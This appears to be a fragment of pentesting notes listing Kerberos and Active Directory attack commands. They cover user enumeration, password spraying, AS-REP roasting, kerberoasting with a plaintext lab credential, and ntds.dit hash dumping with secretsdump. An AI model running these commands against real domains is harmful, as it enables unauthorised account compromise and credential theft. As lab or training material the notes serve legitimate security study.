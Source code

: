 ```
<root@kali:./kerbrute_linux_amd64 userenum -d pentesting.local –dc [ip] [path-to-usernames-wordlist]>
```

\[2]

```
./GetUserSPNs.py -request domain/username
```

#### Check if a user among users in Active directory has a specified password in the input \[Password Spray]

```
<root@kali:./kerbrute_linux_amd64 passwordspray -v -d pentesting.local –dc [ip] [users-list.txt] [the password]>
```

\#or

```
<root@kali:python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@10.10.171.0 | tee usernames>
```

#### Getting password hashes and TGTs for identified users in the previous Kerebros enumeration \[ASREP ROASTING]

```
<root@kali:python3 GetNPUsers.py -dc-ip [ip] pentesting.local/ -usersfile [list-of-found-users-from-command-above]>
```

#### Brute forcing usernames and passwords with Kereberos

```
<root@kali:python kerbrute.py -domain pentesting.local -users users.txt -passwords passwords.txt -outputfile passwords-found.txt>
```

#### Keberosting using cracked credentials

```
<root@kali:python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip 10.10.171.0 'vulnnet-rst.local/t-skid:tj072889*' -outputfile kerberoasting_hashes.txt>
```

## Password cracking

### Given ntds.dit and registery file system

```
<root@kali:python secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL > backup_ad_dump > 
```

or

